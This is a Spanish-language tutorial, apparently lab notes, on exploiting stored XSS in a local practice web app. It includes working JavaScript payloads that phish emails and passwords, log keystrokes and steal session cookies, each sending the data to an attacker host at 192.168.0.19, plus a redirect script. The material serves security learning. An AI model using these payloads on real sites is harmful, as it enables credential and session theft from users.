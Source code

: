 Esta vulnerabilidad permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales. Para practicar vamos a utilizar el siguiente repositorio:
![[Pasted image 20230428095404.png]]
Nos clonamos el repositorio y entramos en la siguiente ruta:
![[Pasted image 20230428095644.png]]
Hacemos un make install y nos lo monta todo por el puerto 10007:
![[Pasted image 20230428095740.png]]
Y accedemos a este panel:
![[Pasted image 20230428095845.png]]
Por lo que nos creamos dos cuentas, el usuario mario con contraseña password1 y el usuario penguin con la contraseña 123123:
![[Pasted image 20230428095929.png]]
![[Pasted image 20230428095946.png]]

## HTML INJECTION

Una vez estamos dentro, tenemos la posibilidad de crear una nueva entrada en la web para que sea publicada:
![[Pasted image 20230428100041.png]]
Y por ejemplo si publicamos algo se queda reflejado:
![[Pasted image 20230428100147.png]]
Ahora vamos a crear otra nota tratando de inyectar código html probando por ejemplo con la etiqueta h1:
![[Pasted image 20230428100313.png]]
Y vemos que se aplica esta etiqueta:
![[Pasted image 20230428100355.png]]
## Scripts de JavaScript
Viendo lo anterior, podemos inyectar código javascript para establecer que la página web víctima ejecute cierto código y alterar así su comportamiento:
![[Pasted image 20230428100657.png]]
Y si ejecutamos esto, se nos abrirá un pop-up:
![[Pasted image 20230428100739.png]]
![[Pasted image 20230428100750.png]]
## INGENIERÍA SOCIAL EN XSS
Podemos inyectar código javascript que solicite al usuario víctima que inserte un correo, a través de este código:
```javascript
<script>
        var email = prompt("Introduce tu email: ");

        if (email == null || email == ""){
         alert("Hay que poner un correo válido");
        } else {
         fetch("http://192.168.0.19/" + email);
        }
</script>
```
![[Pasted image 20230428101528.png]]
Y ahora si accedemos al post, nos pide un email:
![[Pasted image 20230428101544.png]]
Y si nos ponemos en escucha con netcat, habremos recibido el correo del usuario:
![[Pasted image 20230428101652.png]]
No obstante, si quisiéramos también pedir la contraseña al usuario, podríamos usar este código:
```javascript
<script>
        var email = prompt("Introduce tu email: ");
        var password = prompt("Introduce tu contraseña: ");

        if (email == null || email == ""){
         alert("Hay que poner un correo válido");
        } else {
         fetch("http://192.168.0.19/" + email + password);
        }
</script>
```
Y nos pide el correo y después la contraseña:
![[Pasted image 20230428102059.png]]
![[Pasted image 20230428102136.png]]
## Keylogger con javascript

Si queremos crear un keylogger para ir capturando las pulsaciones del teclado de un usuario, lo haría con el siguiente código
```javascript
<script>
        var k = "";
        document.onkeypress = function(e){
         e = e || window.event;
         k += e.key;
         var i = new Image();
         i.src = "http://192.168.0.19/" + k;
};
</script>
```
![[Pasted image 20230428102840.png]]
Y ahora si vamos al post llamado keylogger y escribimos en alguna parte, veremos como todo lo que se escriba se habrá registrado:
![[Pasted image 20230428102956.png]]
## Redirigir al Usuario a otra Web
También podemos redirigir al usuario a otra web de forma automática utilizando este código:
```javascript
<script>
window.location.href="https://google.es";
</script>
```
![[Pasted image 20230428103518.png]]
Y ahora si hacemos clic a este post publicado, nos llevará a google (o a la página phising correspondiente):
![[Pasted image 20230428103548.png]]
![[Pasted image 20230428103555.png]]
## Capturar Cookie de Sesión con XSS
Podemos crear un código javascript para que nos muestre la cookie de sesión del usuario. Por lo que primero tenemos que comprobar que dentro de los ajustes de la web, la cookie no se encuentre protegida, ya que debe aparecer de esta forma:
![[Pasted image 20230428104537.png]]
Y después tenemos que poner este código:
```javascript
<script>
   alert(document.cookie);
</script>
```
![[Pasted image 20230428104826.png]]
Y vemos la cookie de sesión (aunque de momento solo se le muestra al mismo usuario):
![[Pasted image 20230428104929.png]]
Para poder robar la cookie de inicio de sesión del usuario, necesitaremos primeroe este código:
```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.0.19/?cookie=' + document.cookie);
request.send();
```
![[Pasted image 20230428105423.png]]
Y con python si nos ponemos en escucha deberíamos de recibir la cookie de sesión:
![[Pasted image 20230428105738.png]]
